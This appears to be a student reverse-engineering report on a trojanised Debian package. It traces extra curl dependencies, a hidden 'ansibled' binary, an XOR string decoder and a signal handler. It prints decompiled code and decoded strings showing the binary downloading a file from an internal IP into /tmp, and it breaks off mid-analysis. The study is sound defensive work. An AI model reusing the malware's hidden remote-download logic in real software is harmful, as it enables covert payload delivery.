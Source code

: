 # Project N2
## Definition
It was propsoed to us to try to analyse using reverse engineering a suspicius code that was found on campus using Reverse engineering techniques that were thought trought the semester. \
We need to find a response to the following questions:\
- **Do we really have a malware?**\
- **How the malware works and why a deb is used?**\
- **Are other hosts involved?**\
- **What is the potential impact to our organization?**\

## Strategy

First of all we started with a simple search of what is a deb and what are their components. This is the relevant information that we found:
- Deb is the file format that debian uses in its destributioiins
- This archive has 3 files: debian-binary (Containing package format number), control archive (Containig package name, version, dependencies and maintainer) and data archive(Containg the installable files)

### Integrity check 
As we checked there was too many files a shell script was made (with the help of stack overflow) to check the md5 of interely folders so we can compare them witha  genuine version

#### Control
Control is a file that contains the dependencies needed, seeing that the md5 didn't match the original one  we checked this file which contained two added depedencies:
- libcurl4-openssl-dev 
- curl
![S](img/image.png)

This may suggest that the malware needs to comunicate with an external server to **extravigate information** or **download extra code** from one.

### Data
The false deb has an extra lib folder that is suspicious, besides that, the usr folder has a folder where the hashes don't match with the original one.
![](img/image-1.png)
That folder has an extra file named **ansibled**


### Ansibled
#### Strings
Running the strings command can  give us some useful information, like this:

![alt text](img/image-2.png)

We can see this file is triying to connect to some socket and using the extra libraries mentioned before
####  File analysis with ghidra
##### "XorManhoso"
Is a function started at `001016da` that tranforms the string  into a sequence of bytes  and stores in the char array given.
Example of the first time appearing:
String: `"y\";&y78%?4:32x:95="`
Res: `2a 0f 71 68 75 2a 64 6b 76 6c 67 69 60 61 2b 69 6a 66 6e`
#### Threads
The main function executes a thread that is always listening and waits for a connection to be made to a port a reads it and saves it on a variable.
#### Singal handler
On memory address `00101b37`is a function that will be the handler of a signal.
![Signal handler](img/SignalHandler.png)
This function points to two others
##### FUN_00101758
At `00101758` this function decodes two strings
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guid?e.pdf`

Next the code 
```
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```
after serching for a bit we've found this example that very looks like the code above in "https://curl.se/libcurl/c/curl_easy_init.html"
![](img/ExampleCurl.png)
With the all evidence above we can see that this code is doing curl of a PDF file. 
We curled the pdf to see what it was and got a "500 comandos de Linux explicados".  We thought it could be a Poliglot so we checked the hash with a similar one we found online.
- Online:
![alt text](img/Hash1.png)
- What we Curled:
![alt text](img/Hash2.png)
It didn't match

- Online size:   1527251
-  We curled size:  1592968

##### FUN_00101a07
This is the second function of the handler and will help us tell what is done with the file.

